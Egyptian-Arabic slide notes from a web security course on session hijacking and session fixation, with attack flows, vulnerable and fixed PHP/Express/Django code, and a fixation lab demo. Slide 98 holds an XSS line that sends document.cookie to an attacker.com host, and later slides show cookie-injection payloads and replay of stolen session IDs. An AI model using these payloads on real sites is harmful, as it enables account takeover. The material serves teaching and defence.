




# 🎓 الجزء 7: Session Hijacking & Session Fixation
## Slides 94 → 106

---

## Slide 94: عنوان القسم - Session Hijacking & Session Fixation
### سلايد 94:

يلا ندخل في واحد من أخطر المواضيع في الـ Session Management — **Session Hijacking و Session Fixation**.

في الأجزاء اللي فاتت فهمنا إيه هي الـ Sessions وإزاي الـ Cookies بتشتغل. دلوقتي هنشوف **إزاي المهاجم بيسرق الجلسة أو بيتحكم فيها** عشان يدخل حساب حد تاني.

---

## Slide 95: التعريفات الأساسية
### سلايد 95:

### Session Hijacking (سرقة الجلسة):
> بيحصل لما المهاجم **يسرق Session Token نشط** من مستخدم شرعي. بالـ Token ده يقدر ينتحل شخصية المستخدم ويعمل أي حاجة باسمه — يشوف بياناته، يغير إعداداته، يعمل تحويلات مالية... أي حاجة.

اسمه كمان **"Cookie Theft"** — لأن في أغلب الحالات الـ Session Token محفوظ في Cookie.

### Session Fixation (تثبيت الجلسة):
> بيحصل لما المهاجم **يجبر الضحية يستخدم Session ID معين** — Session ID المهاجم يعرفه أو يتحكم فيه. لما الضحية يسجل دخول بالـ Session ID ده، المهاجم يقدر يستخدم نفس الـ ID عشان يدخل الحساب.

### الفرق الجوهري — **التوقيت**:



**شرح الـ Diagram:**
الفرق الأساسي هو **التوقيت**. في **Session Hijacking** — المستخدم بيسجل دخول الأول (السيرفر يديّه Session ID) وبعدين المهاجم بيسرق الـ ID ده. في **Session Fixation** — المهاجم بيجهز الـ Session ID الأول وبيخلي الضحية يسجل دخول بيه، وبعدين المهاجم يستخدم نفس الـ ID.


---

## Slide 96: الفرق التفصيلي بين Hijacking و Fixation
### سلايد 96:

### مقارنة تفصيلية:

| | **Session Hijacking** | **Session Fixation** |
|---|---|---|
| **التوقيت** | **بعد** ما المستخدم يسجل دخول | **قبل** ما المستخدم يسجل دخول |
| **الهدف** | سرقة Session Token موجود | تثبيت Session ID محدد |
| **إيه اللي بيعمله المهاجم** | بيسرق Token شرعي (عن طريق Sniffing أو XSS أو MitM) | بيبعت Session ID للضحية ويخليه يستخدمه |
| **المتطلبات** | وصول لـ Network أو ثغرة XSS | القدرة على التحكم في الـ Session ID |
| **الحل** | تشفير (HTTPS)، HttpOnly Cookies، Token Binding | تغيير الـ Session ID بعد كل Login (Session Regeneration) |

### في الـ Backend — الـ Session Hijacking بيحصل ليه؟

```javascript
// السيرفر بيتعامل مع الـ Session ID كده:
app.get('/dashboard', (req, res) => {
    const sid = req.cookies.session_id;
    const session = sessionStore.get(sid);
    
    // السيرفر بيشوف الـ Session ID بس
    // مش بيتحقق: هل ده نفس الجهاز؟ نفس الـ IP؟ نفس الـ Browser?
    // أي حد عنده نفس الـ Session ID = نفس المستخدم في نظر السيرفر!
    
    if (session) {
        res.render('dashboard', { user: session.userId });
    }
});
```

المشكلة واضحة: **السيرفر بيثق في الـ Session ID بس**. مش بيتحقق من أي حاجة تانية. فلو المهاجم سرق الـ ID — السيرفر مش هيفرق بينه وبين المستخدم الحقيقي.

---

## Slide 97: عنوان القسم — Session Hijacking
### سلايد 97:

خلينا ندخل في تفاصيل كل نوع. نبدأ بالـ **Session Hijacking**.

---

## Slide 98: إزاي الـ Session Hijacking بيشتغل (الجزء الأول)
### سلايد 98:

### How Session Hijacking Works

### المرحلة 1: Session Establishment (إنشاء الجلسة)

لما المستخدم يسجل دخول، السيرفر بيعمل Session ID ويبعته في Cookie (أو URL Parameter أو Header).

```http
# الـ Response بعد Login:
HTTP/1.1 200 OK
Set-Cookie: session_id=aB3x9kL7mN; HttpOnly; Secure
```

### المرحلة 2: Session ID Interception (اعتراض الـ Session ID)

المهاجم بيحاول يوصل للـ Session ID عن طريق واحدة من الطرق دي:

**1. Sniffing (التنصت على الشبكة):**
```
المهاجم على نفس شبكة الـ WiFi...
بيشغل Wireshark أو tcpdump...

لو الموقع HTTP (مش HTTPS):
GET /dashboard HTTP/1.1
Cookie: session_id=aB3x9kL7mN    ← واضحة! 

لو الموقع HTTPS:
TLSv1.3 Application Data: [مشفر]  ← مش فاهم حاجة 
```

**2. Man-in-the-Middle (MitM):**
```
المهاجم بيستخدم أدوات زي:
→ ARP Spoofing (عشان يوجه الترافيك عليه)
→ SSL Stripping (عشان يحول HTTPS لـ HTTP)
→ Evil Twin WiFi (شبكة WiFi مزيفة باسم الكافيه)

كل الترافيك بيعدي عليه → بيسرق الـ Session!
```

**3. Cross-Site Scripting (XSS):**
```html
<!-- لو الموقع عنده ثغرة XSS والـ Cookie مفيهاش HttpOnly -->
<script>
    fetch('https://attacker.com/steal?c=' + document.cookie);
</script>

<!-- الـ Request اللي اتبعت لسيرفر المهاجم: -->
<!-- GET /steal?c=session_id=aB3x9kL7mN -->
```

**4. Predictable Session IDs (تخمين):**
```
لو الـ Session IDs متسلسلة:
Session 1: sess_1001
Session 2: sess_1002
Session 3: sess_1003

المهاجم يخمن: sess_1004, sess_1005, sess_1006...
وبيجرب كل واحد لحد ما يلاقي واحد شغال!
```

### مخطط الهجوم الكامل:



**شرح الـ Diagram:**
الـ flow بيوضح Session Hijacking خطوة بخطوة. الضحية بيسجل دخول عادي والسيرفر بيديّه Session Token. المهاجم بيسرق الـ Token (بأي طريقة من اللي فوق). بعدين بيبعت Request بنفس الـ Token — والسيرفر بيقبله لأنه مش بيتحقق من حاجة تانية غير الـ Token. النتيجة: المهاجم والضحية شغالين بنفس الجلسة!

---

## Slide 99: إزاي الـ Session Hijacking بيشتغل (الجزء التاني)
### سلايد 99:

### المرحلة 3: Session Takeover (الاستيلاء)

بعد ما المهاجم سرق الـ Session ID:

```http
# المهاجم بيبعت Request بالـ Token المسروق:
GET /account/settings HTTP/1.1
Host: target.com
Cookie: session_id=SECRET_TOKEN
```

السيرفر بيشوف الـ Token → بيلاقيه في الـ Session Store → بيتعامل مع المهاجم كأنه الضحية!

### المرحلة 4: Exploitation (الاستغلال)

المهاجم دلوقتي يقدر يعمل **أي حاجة** الضحية يقدر يعملها:

```
الإجراءات اللي المهاجم يقدر يعملها:

 يشوف بيانات حساسة (بيانات شخصية، معاملات مالية)
 يغير إعدادات الحساب (الإيميل، الباسورد، رقم الموبايل)
 يعمل تحويلات مالية
 يمسح بيانات
 يبعت رسائل باسم الضحية
 يغير الباسورد ويقفل الضحية بره حسابه!
```

### إزاي نحمي من Session Hijacking؟

```javascript
// ✅ الحلول في الـ Backend:

// 1. HTTPS فقط + Secure Cookie:
res.cookie('sid', token, { secure: true });

// 2. HttpOnly عشان نمنع XSS Cookie Theft:
res.cookie('sid', token, { httpOnly: true });

// 3. Token Binding — ربط الـ Session بالجهاز:
app.use((req, res, next) => {
    const session = sessionStore.get(req.cookies.sid);
    if (session) {
        const currentFingerprint = req.ip + req.headers['user-agent'];
        if (session.fingerprint !== currentFingerprint) {
            // حد تاني بيستخدم نفس الـ Token من جهاز مختلف!
            sessionStore.delete(req.cookies.sid);
            return res.status(401).send('Session invalidated');
        }
    }
    next();
});

// 4. Session Timeout قصير:
app.use(session({ cookie: { maxAge: 30 * 60 * 1000 } })); // 30 دقيقة
```

---

## Slide 100: عنوان القسم — Session Fixation
### سلايد 100:

خلينا ننتقل للنوع التاني: **Session Fixation**.

---

## Slide 101: إزاي الـ Session Fixation بيشتغل (الجزء الأول)
### سلايد 101:

### How Session Fixation Works

### المرحلة 1: المهاجم يحدد Session ID

المهاجم بيحصل على Session ID بواحدة من الطرق دي:

**1. بيفتح الموقع عادي والسيرفر يديله Session ID:**
```http
# المهاجم يزور الموقع:
GET / HTTP/1.1
Host: target.com

# السيرفر يرد:
Set-Cookie: PHPSESSID=ATTACKERS_SESSION_123
```

**2. بيخمن Session ID متوقع (لو الـ IDs ضعيفة)**

**3. بيولّد واحد (لو التطبيق بيقبل أي Session ID)**

### المرحلة 2: المهاجم يبعت الـ Session ID للضحية

```
الطرق اللي بيستخدمها المهاجم:

1️⃣ عن طريق URL:
   المهاجم يبعت لينك للضحية:
   https://target.com/login?sessionid=ATTACKERS_SESSION_123
   
   الضحية يضغط على اللينك → المتصفح يستخدم الـ Session ID ده

2️⃣ عن طريق Cookie (لو عنده XSS):
   المهاجم يحقن JavaScript:
   <script>document.cookie="PHPSESSID=ATTACKERS_SESSION_123"</script>

3️⃣ عن طريق HTTP Header Injection (Meta Tag):
   <meta http-equiv="Set-Cookie" content="PHPSESSID=ATTACKERS_SESSION_123">
```

---

## Slide 102: إزاي الـ Session Fixation بيشتغل (الجزء التاني)
### سلايد 102:

### المرحلة 3: الضحية يسجل دخول بالـ Session ID بتاع المهاجم

```http
# الضحية ضغط على اللينك وسجل دخول:
POST /login HTTP/1.1
Host: target.com
Cookie: PHPSESSID=ATTACKERS_SESSION_123
Content-Type: application/x-www-form-urlencoded

username=victim&password=secret123
```

```http
# السيرفر بيرد:
HTTP/1.1 302 Found
Location: /dashboard
#  مفيش Set-Cookie جديد! الـ Session ID مبتغيرش!
```

المشكلة: **الـ Session ID اللي المهاجم يعرفه = نفس الـ Session ID اللي الضحية مسجل بيه دخول!**

### المرحلة 4: المهاجم يدخل بنفس الـ Session ID

```http
# المهاجم بيبعت Request بنفس الـ Session ID:
GET /dashboard HTTP/1.1
Host: target.com
Cookie: PHPSESSID=ATTACKERS_SESSION_123

# السيرفر بيشوف الـ Session ID → بيلاقيه مسجل دخول باسم الضحية!
# المهاجم دخل الحساب! 
```

### الـ Flow الكامل:



**شرح الـ Diagram:**
الـ flow بيوضح الـ Session Fixation خطوة بخطوة. المهاجم بيزور الموقع الأول وبياخد Session ID. بعدين بيبعت اللينك للضحية فيه الـ Session ID ده. الضحية بيسجل دخول — والمشكلة إن السيرفر مش بيغير الـ Session ID بعد Login! فالمهاجم بيستخدم نفس الـ ID اللي يعرفه ويدخل حساب الضحية.

---

## Slide 103: رسم توضيحي للهجمة
### سلايد 103:

الـ Slide دي مجرد رسم توضيحي لنفس الـ Flow اللي شرحناه فوق. الفكرة الأساسية:

(   شرحناه بالتفصيل في الـ Sequence Diagram الي فات مش قادر اعيده تاني بصراحة )

---

## Slide 104: أسباب ثغرة Session Fixation
### سلايد 104:

### إيه اللي بيخلي التطبيق معرض لـ Session Fixation؟

### 1. عدم تغيير الـ Session ID بعد Login (السبب الرئيسي!)

```php
<?php
// ❌ كود ضعيف — مش بيغير الـ Session ID:
session_start();
if (authenticate($username, $password)) {
    $_SESSION['logged_in'] = true;
    $_SESSION['user'] = $username;
    // الـ Session ID اللي كان موجود قبل Login = نفسه بعد Login!
}

// ✅ كود آمن — بيغير الـ Session ID:
session_start();
if (authenticate($username, $password)) {
    session_regenerate_id(true);  // ← ده السطر المهم!
    // بيعمل Session ID جديد تماماً ويمسح القديم
    $_SESSION['logged_in'] = true;
    $_SESSION['user'] = $username;
}
?>
```

### 2. التطبيق بيقبل Session IDs من الـ URL

```
# لو التطبيق بيقبل ده:
https://target.com/login?PHPSESSID=ATTACKER_CONTROLLED_ID

# المهاجم يقدر يحدد الـ Session ID بسهولة!
```

### 3. Session IDs ضعيفة أو متوقعة

```
Session IDs متسلسلة:
sess_001, sess_002, sess_003...

المهاجم يقدر يخمن أو يولد Session ID صالح!
```

### 4. Session IDs في الـ URL

```
https://target.com?session_id=abc123

ده بيتسرب في:
← Referer Headers
← Server Logs
← Browser History
← لو حد عمل Copy/Paste للـ URL
```

---

## Slide 105: أسباب إضافية
### سلايد 105:

### 5. غياب الـ Security Flags على الـ Cookies

```http
# ❌ بدون Flags:
Set-Cookie: session_id=abc123

# ✅ مع Flags:
Set-Cookie: session_id=abc123; HttpOnly; Secure; SameSite=Strict
```

بدون الـ Flags:
- **مفيش HttpOnly** = المهاجم يقدر يحقن Cookie عن طريق JavaScript (XSS)
- **مفيش Secure** = الـ Cookie ممكن تتسرق عبر HTTP
- **مفيش SameSite** = الـ Cookie ممكن تتبعت مع Cross-Site Requests
اظن حفظناها خلاص من كتر ما قالوها في الpdf 

### 6. عدم وجود Expiry أو Timeout

```
لو الـ Session ID مش بينتهي:
→ المهاجم يبعت Session ID للضحية
→ الضحية يسجل دخول بعد يومين (الـ Session ID لسه شغال!)
→ المهاجم يستخدمه بعد أسبوع (لسه شغال!)

ده بيدي المهاجم وقت أكتر لاستغلال الهجمة
```

### الحلول الكاملة:



**شرح الـ Diagram:**
الحماية من Session Fixation بتعتمد على 5 إجراءات أساسية. أهمهم هو **Session Regeneration** — إنك تغير الـ Session ID بعد كل Login ناجح. والباقي حلول دفاعية إضافية: رفض Session IDs من الـ URL، إضافة Cookie Security Flags، تحديد Timeout معقول، واستخدام Session IDs عشوائية قوية.

### في الـ Backend — الحل الصح:

```javascript
// Express.js — Session Regeneration بعد Login
app.post('/login', (req, res) => {
    const { username, password } = req.body;
    
    if (authenticate(username, password)) {
        // ده أهم سطر! بيغير الـ Session ID تماماً
        req.session.regenerate((err) => {
            if (err) return res.status(500).send('Error');
            
            req.session.userId = user.id;
            req.session.role = user.role;
            res.redirect('/dashboard');
        });
    }
});
```

```python
# Django — Session Regeneration تلقائي!
# Django بيعمل ده تلقائياً لما تستخدم:
from django.contrib.auth import login

def login_view(request):
    # login() بيعمل session regeneration تلقائي ✅
    login(request, user)
    # الـ Session ID القديم اتمسح واتولد واحد جديد
```

> **🔴 من واقع الـ Pentesting:** أسهل طريقة أختبر بيها Session Fixation: بفتح الموقع وقبل ما أسجل دخول بحفظ الـ Session ID (مثلاً `sid=OLD_123`). بعدين بسجل دخول وبشوف الـ Session ID. لو **نفس الـ ID** (`sid=OLD_123`) = Session Fixation! لو **ID جديد** (`sid=NEW_456`) = آمن. حرفياً بياخد 30 ثانية.
بلغتها قبل كدا بس متقبلتش يعني info كالعادة 

---

## Slide 106: Lab Demo — Session Fixation
### سلايد 106:

### Lab Demo: Session Fixation

### السيناريو:
عندنا تطبيق ويب مش بيغير الـ Session ID بعد Login. مطلوب نثبت إن ده ممكن يتستغل.

### الخطوات العملية:

**الخطوة 1: افتح الموقع في متصفح وسجل الـ Session ID**
```
1. افتح الموقع في Chrome
2. افتح DevTools > Application > Cookies
3. لاحظ الـ Session ID: PHPSESSID = "abc123"
```

**الخطوة 2: سجل دخول وشوف الـ Session ID**
```
1. سجل دخول بـ username/password
2. شوف الـ Cookies تاني
3. لو الـ PHPSESSID لسه = "abc123" ← Session Fixation! 
```

**الخطوة 3: استغل الثغرة**
```
1. افتح Incognito Window (متصفح تاني)
2. حط الـ Cookie يدوياً في DevTools Console:
   document.cookie = "PHPSESSID=abc123";
3. روح لصفحة محمية زي /dashboard
4. لو فتحت = أنت دخلت بجلسة المستخدم التاني! 
```


---

## 🎯 ملخص الجزء السابع

| المفهوم | الشرح |
|---------|-------|
| **Session Hijacking** | سرقة Session Token نشط — بيحصل **بعد** Login |
| **Session Fixation** | تثبيت Session ID — بيحصل **قبل** Login |
| **طرق الـ Hijacking** | Sniffing, MitM, XSS, Predictable IDs |
| **سبب الـ Fixation** | السيرفر مش بيغير الـ Session ID بعد Login |
| **الحل الأساسي** | Session Regeneration = تغيير الـ ID بعد كل Login |
| **الحماية الإضافية** | HTTPS + HttpOnly + Secure + SameSite + Timeout |

> **📝 الجزء الجاي (Session 8):** هندخل في **CSRF (Cross-Site Request Forgery)** وبعدها **Token-Based Authentication** — هنشوف إزاي CSRF بيستغل الـ Cookies وإزاي الـ Tokens بتوفر بديل آمن.
